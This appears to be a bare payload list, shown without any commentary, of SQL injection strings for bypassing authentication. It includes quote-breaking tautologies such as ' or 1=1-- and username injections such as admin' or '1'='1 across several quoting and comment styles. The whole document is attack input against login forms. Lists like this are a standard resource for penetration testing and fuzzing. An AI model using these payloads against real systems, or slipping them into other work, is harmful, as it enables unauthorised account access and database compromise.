 ```sqlite
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 1=1
or 1=1--
or 1=1#
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
```